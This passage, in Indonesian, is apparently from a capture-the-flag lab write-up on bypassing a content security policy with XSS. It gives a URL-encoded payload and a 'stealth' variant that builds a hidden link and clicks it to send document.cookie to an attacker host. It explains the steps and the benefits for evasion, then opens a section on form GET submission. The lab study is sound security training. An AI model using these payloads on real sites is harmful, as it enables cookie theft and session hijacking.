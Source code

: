 **URL Encoded:**
```
https://pzcihwu2.xssy.uk/target.ftl?name=%3Cscript%3E%0Avar%20a%20%3D%20document.createElement%28%27a%27%29%3B%0Aa.href%20%3D%20%27https%3A%2F%2Feqh42jmm.xssy.uk%2F%3Fc%3D%27%2Bdocument.cookie%3B%0Adocument.body.appendChild%28a%29%3B%0Aa.click%28%29%3B%0A%3C%2Fscript%3E
```

**Variasi Stealth:**
```javascript
<script>
var a = document.createElement('a');
a.href = 'https://eqh42jmm.xssy.uk/?c='+document.cookie;
a.style.display = 'none';  // Invisible link
document.body.appendChild(a);
setTimeout(function(){ a.click(); }, 100);
</script>
```

### Cara Kerja
1. XSS payload di-inject melalui parameter `name`
2. Script membuat element `<a>` baru secara dinamis
3. Attribute `href` di-set ke URL attacker dengan cookie
4. Link ditambahkan ke DOM (body page)
5. Method `.click()` dipanggil untuk men-trigger click event
6. Browser menganggap ini sebagai user interaction
7. Browser melakukan navigasi ke href link
8. Server attacker menerima request dengan cookie

### Kelebihan
- ✅ **Simulates user action** - Terlihat seperti legitimate click
- ✅ **Bypass popup blockers** - Karena dianggap user-initiated
- ✅ **Can be invisible** - Link bisa disembunyikan dengan CSS
- ✅ **Standard HTML element** - Menggunakan elemen native
- ✅ **Flexible timing** - Bisa delay click dengan setTimeout

### Kekurangan
- ❌ **More code** - Lebih panjang dari location redirect
- ❌ **DOM manipulation needed** - Harus append ke body
- ❌ **User sees navigation** - Tetap terlihat berpindah halaman
- ❌ **URL limit** - Sama seperti teknik lain (~2000 chars)
- ❌ **Bisa diblokir oleh**: `navigate-to 'self'` (jika ada)

---

## 🎯 Teknik 4: Form GET Submission

### URL & Parameter Lab
```
https://pzcihwu2.xssy.uk/target.ftl?name=
```

### CSP yang Diterapkan
```
default-src 'none'; 
img-src https://xssy.uk/; 
style-src 'unsafe-inline'; 
script-src 'unsafe-inline'
```
